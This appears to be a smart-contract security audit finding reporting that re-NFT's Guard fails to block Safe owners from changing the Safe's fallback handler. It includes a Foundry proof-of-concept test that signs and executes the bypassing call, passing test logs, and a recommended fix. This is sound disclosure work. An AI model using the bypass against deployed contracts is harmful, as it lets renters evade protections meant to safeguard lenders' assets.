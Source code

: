 ## [L - 01 ] - Safe's Fallback Handler Can be Changed

There are currently some checks in Guard that ensure certain delicate actions aren't allowed to be performed by owners of a safe, but the current implementation doesn't block calls that change the safe fallback handler.
This could lead to compatibility issues and some other possible issues.

As discussed with a sponsor, this isn't an intended behaviour.

I have written a POC to show this can be changed.

Add the below test to `/test/integration/StopRent.t.sol`, then import:
 ```
import {Enum} from "@safe-contracts/common/Enum.sol";
```
and then add this dummy contract:
```
contract DummyFallbackHandler {}
```
then run:
```
forge test -vvv --match-path test/integration/StopRent.t.sol --match-test test_ADDHANDLER
```
```
     function test_ADDHANDLER() public {
        //this will later be done in the setUp function
        DummyFallbackHandler handler = new DummyFallbackHandler();
        //we will be working with bob
        // speed up in time past the rental expiration
        // vm.warp(block.timestamp + 750);

        //get safe's current nonce
        uint256 nonce = alice.safe.nonce();
        bytes memory _calldata = abi.encodeWithSelector(
            bytes4(keccak256("setFallbackHandler(address)")),
            handler
        );
        // bytes memory _calldata = abi.encodeWithSelector(0x42966c68, 0);

        bytes32 dataHash = alice.safe.getTransactionHash(
            address(alice.safe),
            uint256(0),
            _calldata,
            Enum.Operation.Call,
            uint256(0),
            uint256(0),
            uint256(0),
            address(0),
            payable(0),
            nonce
        );

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(alice.privateKey, dataHash);
        bytes memory signature = new bytes(65);
        assembly {
            mstore(add(signature, 32), r)
            mstore(add(signature, 64), s)
            mstore8(add(signature, 96), v)
        }

        alice.safe.execTransaction(
            address(alice.safe), //self call to the safe itself
            0,
            _calldata,
            Enum.Operation.Call, //Call
            0,
            0,
            0,
            address(0),
            payable(0),
            signature
        );
    }
```

Here are the logs:
```
[⠆] Compiling...
[⠘] Compiling 1 files with 0.8.22
[⠊] Solc 0.8.22 finished in 45.57sCompiler run successful!
[⠒] Solc 0.8.22 finished in 45.57s

Running 1 test for test/integration/StopRent.t.sol:TestStopRent
[PASS] test_ADDHANDLER() (gas: 143368)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 18.24ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## RECOMMENDATION
Add a check in the [Guard::_checkTransaction](https://github.com/re-nft/smart-contracts/blob/3ddd32455a849c3c6dc3c3aad7a33a6c9b44c291/src/policies/Guard.sol#L195) function to block such requests
